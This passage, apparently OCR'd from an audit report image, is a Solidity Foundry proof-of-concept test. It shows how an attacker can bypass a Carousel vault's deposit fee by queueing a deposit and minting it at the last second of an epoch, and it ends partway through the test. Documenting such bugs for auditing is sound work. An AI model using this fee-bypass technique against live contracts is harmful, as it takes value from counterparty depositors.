 ```solidity
                relayerFee: 10000,
                depositFee: 250
            }
        );

        (address premium, address collateral, uint256 _marketId) = carouselFactory.createNewCarouselMarket(config);
        marketId = _marketId;
        premiumVault = Carousel(premium);
        collateralVault = Carousel(collateral);

        // creating the first two epochs, with the first one beginning and the second one queued:

        (epochId1,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+10), // epochBegin
            uint40(block.timestamp+20), // epochEnd
            100,1_000e18,1_000e18
        );

        vm.warp(block.timestamp+10); // epoch 1 has started

        // 10 timestamp gap between the first epoch and the second epoch
        (epochId2,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+20), // epochBegin
            uint40(block.timestamp+30), // epochEnd
            100,1_000e18,1_000e18
        );

        // first epoch resolved with nullEpoch as there are no deposits
        controllerPeggedAssetV2.triggerNullEpoch(marketId,epochId1);
        vm.stopPrank();
    }

    /// showcasing the bug/exploit
    function testBypassDepositFee() public {

        // showcasing how any user can trivially bypass the deposit fee, and how it allows them to maximize returns
        // through depositing at the last second at the expense of the users deposited in the counterparty vault

        // user deposits money into the premium vault
        vm.prank(user1);
        premiumVault.depositETH{value:1e18}(
            epochId2,user1
        );

        vm.warp(block.timestamp+20); // second epoch has started
        
        // attacker waits until this final timestamp to make maximum EV play
        // in this final timestamp, the fee should be 2.50% based on the configuration of this vault

        vm.prank(attacker);
        collateralVault.depositETH{value:10_001}(
            0,attacker // will add to deposit queue
        );
        vm.prank(attacker);
        collateralVault.mintDepositInQueue( // attacker mints their own deposit in queue
            epochId2,1
        );
```